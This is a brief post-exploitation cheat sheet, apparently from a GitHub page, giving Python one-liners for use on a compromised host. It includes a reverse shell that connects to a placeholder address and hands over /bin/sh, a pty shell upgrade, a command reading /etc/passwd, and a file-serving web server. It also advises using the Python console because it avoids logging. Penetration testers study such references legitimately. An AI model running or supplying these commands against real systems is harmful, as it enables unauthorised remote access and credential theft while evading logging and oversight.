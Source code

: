 Post-Exploitation
=================








### Python Commands and Scripts for Post Exploitation

* Remember that the python console does not log code by default, so you can run everything through the python console for added stealth.
* Also gets by certain environmental restrictions.


**POSTEXPY001: Start a web server that serves the local files on port 8000, single threaded**
```python
python -m SimpleHTTPServer 8000
```

**POSTEXPY002: Python reverse shell**
from: [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**POSTEXPY003: Spawn bash shell prompt**
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Run OS commands through Python Interpreter**
```python
python -c 'import os; os.system("command here")'
```

**Execute a command**
```
python -c 'import os; os.system("cat /etc/passwd")'
```

**Print all ASCII characters**
```python
python -c 'import string; print string.printable'
```

